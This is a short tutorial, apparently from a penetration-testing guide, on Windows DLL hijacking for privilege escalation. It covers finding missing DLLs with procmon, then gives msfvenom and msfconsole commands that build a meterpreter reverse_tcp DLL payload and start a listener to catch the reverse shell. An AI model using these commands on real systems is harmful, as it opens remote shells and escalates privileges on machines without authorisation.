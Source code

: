 First of all, let’s get the definition out of the way. DLL hijacking is, in the broadest sense, tricking a legitimate/trusted application into loading an arbitrary DLL. Terms such as DLL Search Order Hijacking, DLL Load Order Hijacking, DLL Spoofing, DLL Injection and DLL Side-Loading are often -mistakenly- used to say the same.
Dll hijacking can be used to execute code, obtain persistence and escalate privileges. From those 3 the least probable to find is privilege escalation by far. However, as this is part of the privilege escalation section, I will focus on this option. Also, note that independently of the goal, a dll hijacking is perform the in the same way.

#Finding missing Dlls

The most common way to find missing Dlls inside a system is running procmon from sysinternals, setting the following 2 filters from jpg files i put .
If you are looking for missing dlls in general you leave this running for some seconds.
If you are looking for a missing dll inside an specific executable you should set another filter like "Process Name" "contains" "<exec name>", execute it, and stop capturing events.

#Exploiting Missing Dlls
In order to escalate privileges, the best chance we have is to be able to write a dll that a privilege process will try to load in some of place where it is going to be searched. Therefore, we will be able to write a dll in a folder where the dll is searched before the folder where the original dll is (weird case), or we will be able to write on some folder where the dll is going to be searched and the original dll doesn't exist on any folder.

Use metasploit :

msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f dll -o msf.dll

after that build up listener

mfsconsole

use multi/handler

set LHOST YOUR-IP

set LPORT YOUR-PORT

set PAYLOAD windows/meterpreter/reverse_tcp

exploit


Enjoy :)
